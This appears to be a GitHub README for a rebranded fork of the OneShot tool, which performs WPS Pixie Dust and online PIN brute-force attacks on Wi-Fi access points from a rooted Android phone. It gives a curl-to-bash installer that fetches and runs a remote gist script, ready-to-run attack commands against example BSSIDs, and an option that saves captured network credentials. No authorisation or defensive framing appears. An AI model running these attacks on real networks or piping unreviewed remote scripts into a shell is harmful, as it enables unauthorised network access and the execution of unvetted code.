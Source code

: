 # WifeOrWifi


# Overview
**OneShot** performs [Pixie Dust attack](https://forums.kali.org/showthread.php?24286-WPS-Pixie-Dust-Attack-Offline-WPS-Attack) without having to switch to monitor mode.
# Features
 - Pixie Dust attack.
 - integrated 3WiFi offline WPS PIN generator.
 - online WPS bruteforce.
 - Wi-Fi scanner with highlighting based on iw.
# Requirements

 - [Turmux Latest](https://termux.com)
 - Rooted phone
 - Android 9+
# Setup 

#### Using installer
 ```
 curl -sSf https://gist.githubusercontent.com/5hojib/756390b00e49d44d3d90d29c4df77b09/raw/installer.sh | bash
 ```
#### Manually
**Installing requirements**
 ```
 pkg install -y root-repo
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Getting OneShot**
 ```
 git clone --depth 1 https://github.com/5hojib/OneShot ShojibVaiSingle
 ```
#### Running
 ```
 cd ShojibVaiSingle
 ```
 Then bring me a wife and
 ```
 sudo python oneshot.py -i wlan0 -K
 ```

# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running OneShot with the `--mtk-wifi` flag to initialize Wi-Fi device driver.
